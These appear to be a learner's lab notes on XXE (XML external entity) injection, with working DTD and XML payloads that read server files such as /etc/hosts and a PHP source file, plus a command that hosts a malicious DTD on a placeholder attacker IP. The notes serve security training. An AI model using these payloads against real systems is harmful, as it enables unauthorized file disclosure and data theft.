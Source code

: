 ***LAB Notes:*

1) Intercepted request
![[First intercept.png]]

2) Modified request
![[PHP wrapper.png]]

3) Decoded the base64 output
![[decoded.png]]

### Advanced File Disclosure

#### Advanced Exfiltration by wrapping the content of the external file reference with a CDATA tag and XML Parameter Entities
```Shell
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000
```

#### Reference the external entity (`xxe.dtd`) and then print the `&joined;`
```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>

<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```
![[Pasted image 20230216101227.png]]

### Error-Based XXE

#### Send malformed XML data, and see if the web application displays any errors
![[Pasted image 20230216101429.png]]
Delete any of the closing tags, change one of them, so it does not close (e.g. `<roo>` instead of `<root>`), or just reference a non-existing entity

#### Host a DTD file
```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```
Defines the `file` parameter entity and then joins it with an entity that does not exist
